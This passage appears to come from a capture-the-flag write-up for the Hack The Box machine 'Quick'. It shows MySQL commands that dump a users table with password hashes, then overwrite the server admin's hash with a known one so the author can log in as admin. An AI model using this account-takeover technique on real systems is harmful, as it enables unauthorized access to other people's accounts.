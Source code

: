 ```
sam@quick:/var/www/printer$ mysql -u db_adm -D quick -p 
Enter password: 
[...]

mysql> show tables;
+-----------------+
| Tables_in_quick |
+-----------------+
| jobs            |
| tickets         |
| users           |
+-----------------+
3 rows in set (0.00 sec)

mysql> select * from users;
+--------------+------------------+----------------------------------+
| name         | email            | password                         |
+--------------+------------------+----------------------------------+
| Elisa        | elisa@wink.co.uk | c6c35ae1f3cb19438e0199cfa72a9d9d |
| Server Admin | srvadm@quick.htb | e626d51f8fbfd1124fdea88396c35d05 |
+--------------+------------------+----------------------------------+
2 rows in set (0.00 sec)
```

Since I have access to the database, I can just change the `srvadm` user password to `Quick4cc3$$` by using the same hash as the Elisa user account.

```
mysql> update users set password = 'c6c35ae1f3cb19438e0199cfa72a9d9d' where name='Server Admin';
Query OK, 0 rows affected (0.00 sec)
Rows matched: 1  Changed: 0  Warnings: 0
```

And now I can log in to the printer application page with `srvadm@quick.htb / Quick4cc3$$`:

![](/assets/images/htb-writeup-quick/image-20200425204523370.png)
